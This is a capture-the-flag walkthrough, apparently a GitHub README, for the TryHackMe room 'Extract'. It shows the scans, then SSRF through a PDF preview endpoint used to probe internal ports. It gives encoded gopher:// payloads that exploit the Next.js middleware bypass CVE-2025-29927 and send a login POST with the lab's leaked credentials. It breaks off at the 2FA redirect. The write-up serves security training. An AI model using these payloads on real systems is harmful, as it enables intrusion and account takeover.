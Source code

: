 # 🕵️ Extract

* Solving [EXTRACT](https://tryhackme.com/room/extract)

## Discovery

1. First of all, Lets Find Open Ports: `nmap -p- -sV $TARGET` 🎯
```
Nmap scan report for $TARGET
Host is up (0.00024s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
MAC Address: 02:79:29:14:25:7F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2. By checking Web Port(**80**) with `http://$TARGET`, It seems PDFs  are loaded From: `http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fpdf%2Fdummy.pdf`. Possibly the website is vulnerable to **Path Traversal** or **SSRF** 🔥

![Website View](images/02-web.png)
![Burpsuite View](images/02-ssrf.png)

3. I tested all [PHP Wrappers](https://www.php.net/manual/en/wrappers.php) but nothing found! so I decided to dig in deeper! 😅

![PHP Wrappers](images/03-wrapper.png)

4. Next, I tried Finding Hidden Directories Using [RAFT Medium Directory List](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-medium-directories.txt) 🔒
```sh
ffuf -w raft-medium-directories.txt -u "http://$TARGET/FUZZ/"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://$TARGET/FUZZ/
 :: Wordlist         : FUZZ: raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

pdf                     [Status: 200, Size: 0, Words: 1, Lines: 1]
javascript              [Status: 403, Size: 277, Words: 20, Lines: 10]
icons                   [Status: 403, Size: 277, Words: 20, Lines: 10]
management              [Status: 403, Size: 14, Words: 2, Lines: 1]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
```

5. I could Find **2** valuable Directories, but we don't have direct access to them. 😵
```
management
server-status
```

6. But, PDF Preview link may be able to load other URLs for us! 👍🏻
```
management:
http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fmanagement%2F

server-status:
http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fserver-status%2F
```

![Management Page](images/06-management.png)

8. I tried finding more directories with [RAFT Large Directory List](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt), But nothing fancy showed up! Only the `localhost` keyword was blocked, so I didn't fall into that **Rabbit Hole** anymore! 🐰

9. A new Idea! Lets Brute-Force **Ports** on host, **Internally**! 🤌
```sh
seq 1 65535 > ports.txt
ffuf -w ports.txt -u "http://$TARGET/preview.php?url=http%3A%2F%2F127.0.0.1:FUZZ" -fw 1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://$TARGET/preview.php?url=http%3A%2F%2F127.0.0.1:FUZZ
 :: Wordlist         : FUZZ: ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 1
________________________________________________

80                      [Status: 200, Size: 1735, Words: 304, Lines: 65]
10000                   [Status: 200, Size: 6131, Words: 104, Lines: 1]
```
**Attention**: `-fl 1` didn't work, because response on port `10000` has only `1` line of code.

10. Now, Lets Check Port `10000` on Browser: `http://$TARGET/preview.php?url=http://127.0.0.1:10000` 👀

![API Internal](images/10-api.png)

11. There is a Hidden API Here, But Accessing `http://127.0.0.1:10000/customapi` needs **Authentication** as the Image above says it loud and clear! 👂

## Flag 1 ⛳️

12. By Checking HTML, It seems the website is based on `Next.JS`. First vulnerability to check is [CVE-2025-29927](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass). We can this security issue by sending request below: 🧨
```
GET /customapi HTTP/1.1
Host:127.0.0.1:10000
X-Middleware-Subrequest: middleware
```

13. Everything seems in order until you realize, There is **NO** way to send **HTTP Headers** in ssrf on this website (YET)! 😱

14. Don't worry, By diving in OLD Internet Protocols and PHP Wrappers. I could find `gopher://` which provides the capability of sending requests over tcp, specially `HTTP`. For Learning More About `gopher://`, check links in **References** section. 🔎

15. Lets use [CyberChef](https://gchq.github.io/CyberChef/) for creating `gopher` payloads by keeping conditions below: ✅
- ☑️ Double Encode Payloads
- ☑️ Convert `&` into `%26`
- ☑️ Line Endings should be **CRLF**

```
gopher://127.0.0.1:10000/_GET /customapi HTTP/1.1
Host:127.0.0.1:10000
X-Middleware-Subrequest: middleware

```

![gopher ssrf](images/15-next-js-exploit.png)

```
gopher://127.0.0.1:10000/_GET%2520/customapi%2520HTTP/1.1%250D%250AX-Middleware-Subrequest:%2520middleware%250D%250A
```

16. Now, we need to exploit the vulnerability on target and access the **API** page: `http://$TARGET/preview.php?url=gopher://127.0.0.1:10000/_GET%2520/customapi%2520HTTP/1.1%250D%250AX-Middleware-Subrequest:%2520middleware%250D%250A` 🔥

![Next.js Exploit](images/16-req.png)

17. Nice, We Got the Flag 1 🚀!
```
THM{363bec60df12c2cadbe9ff35393fa468}
```

18. Save The HTML in File and open it, We have more Than Flag here (CREDENTIALS). 😈
```
U: librarian
P: L1br4r1AN!!
```

![Credentials](images/18-html.png)

## Flag 2 ⛳️

20. In the `/management`, There is a nice Login form: `http://10.10.92.204/preview.php?url=http://127.0.0.1/management/` 🔐

![Management](images/06-management.png)

21. We Have 2 Fields, `username` and `password`. Let's Login using `gopher://`. 📝
```
gopher://127.0.0.1:80/_POST /management/index.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Connection: close

username=librarian&password=L1br4r1AN%21%21
```

![management login](images/21-login.png)

**Attention**: Convert `&` to `%26` on burp when sending.

```
gopher://127.0.0.1:80/_POST%2520/management/%2520HTTP/1.1%250D%250AHost:%2520127.0.0.1%250D%250AContent-Type:%2520application/x-www-form-urlencoded%250D%250AContent-Length:%252043%250D%250A%250D%250Ausername=librarian%26password=L1br4r1AN%252521%252521
```


22. Response redirects into `/2fa.php` with Cookies: 🍪
```
HTTP/1.1 302 Found
Date: Mon, 20 Oct 2025 14:44:32 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: PHPSESSID=qrjv6vf9nk2oh0bgmqomalmchh; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: auth_token=O%3A9%3A%22AuthToken%22%3A1%3A%7Bs%3A9%3A%22validated%22%3Bb%3A0%3B%7D; expires=Mon, 20 Oct 2025 15:44:32 GMT; Max-Age=3600; path=/
Location: 2fa.php
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

![redirect to 2fa](images/22-login-redir-2fa.png)

